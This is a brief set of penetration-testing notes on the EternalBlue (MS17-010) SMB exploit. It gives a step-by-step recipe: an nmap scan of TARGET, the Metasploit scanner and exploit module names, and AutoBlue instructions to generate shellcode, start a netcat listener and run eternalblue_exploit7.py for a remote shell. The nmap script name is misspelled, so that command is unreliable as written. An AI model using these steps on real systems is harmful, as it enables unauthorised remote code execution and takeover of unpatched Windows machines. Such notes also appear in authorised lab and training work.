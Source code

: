 # Eternal Blue

## Scan to check if vulnerable
nmap -sV -p 445 --script=sbm-vuln-ms17-010 TARGET

## Metasploit
search eternalblue
(Scanner) auxiliary/scanner/smb/smb_ms17_010
(Exploit) exploit/windows/smb/ms17_010_eternalblue

## AutoBlue-MS17-010
Via github
Have to generate shellcode to exploit
Execute prior 
Generate a stageless payload 
Start netcat listener 
  Nc -nvlp 1234 (port you set up prior)
In the eternalblue_exploit directory in a different prompt
  Change mod
  Python eternalblue_exploit7.py TARGET shellcode/sc_x64.bin
Will have a connection in the netcat terminal 
